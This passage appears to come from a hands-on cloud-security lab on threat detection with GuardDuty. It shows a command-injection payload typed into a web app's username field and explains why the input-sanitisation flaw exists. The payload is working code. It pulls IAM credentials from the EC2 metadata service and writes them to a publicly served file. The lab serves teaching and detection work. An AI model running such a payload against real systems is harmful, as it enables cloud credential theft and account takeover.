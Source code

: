 Option 2: Javascript code block: (PDF version)

> &nbsp;
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
> &nbsp;


<div style="text-align: center;">
  <div style="border: 5px solid #f4a261; padding: 5px; display: inline-block;">
    <img src="Threat Detection with GuardDuty/username location.png" alt="alt text" width="900">
  </div>
</div>

##

> &nbsp;
> 💡 **Why are we entering code in the Username field?**
>
> Imagine asking someone for their name—but instead, they hand you instructions to unlock your phone and give it to them. That's essentially what happens during **command injection** on the admin portal of our web app.
>
> This is a **serious security vulnerability** where the server misinterprets input data as executable commands. The web app expected a username, but instead received a script that steals **IAM credentials** from the EC2 instance it's running on.
>
> 🧨 **Impact:** Attackers can use this technique to access sensitive data, manipulate services, or even gain control over cloud infrastructure.
>
> ---
>
> 💡 **Why does this vulnerability exist?**
>
> The core issue lies in the app’s failure to **sanitize input**. Input sanitization ensures user-submitted data is treated as plain text—not executable code.